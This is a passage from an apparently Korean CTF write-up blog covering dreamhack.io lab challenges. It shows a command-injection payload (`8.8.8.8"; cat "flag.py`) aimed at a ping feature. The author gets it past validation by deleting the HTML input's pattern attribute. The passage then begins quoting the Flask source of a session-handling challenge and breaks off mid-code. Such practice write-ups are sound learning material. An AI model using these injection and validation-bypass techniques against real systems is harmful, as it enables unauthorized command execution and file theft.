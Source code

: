 command injection... 코드 중간에 `f'ping -c 3"{host}"`를 읽고 바로 공격했다.

```
8.8.8.8"; cat "flag.py
```

그런데 아래 요소가 방해를 하여 지운 뒤 전송했다.

```html
<input type="text" class="form-control" id="Host" placeholder="8.8.8.8" name="host" pattern="[A-Za-z0-9.]{5,20}" required="">
```

![image-20220621162705702](../img/image-20220621162705702.png)

또 달콤한 힐링 문제였다.


<br><br><br>

-----

# > dreamhack.io: session-basic

## writeup

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}


# this is our session storage 
session_storage = {
}


@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        # get username from session_storage 
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
```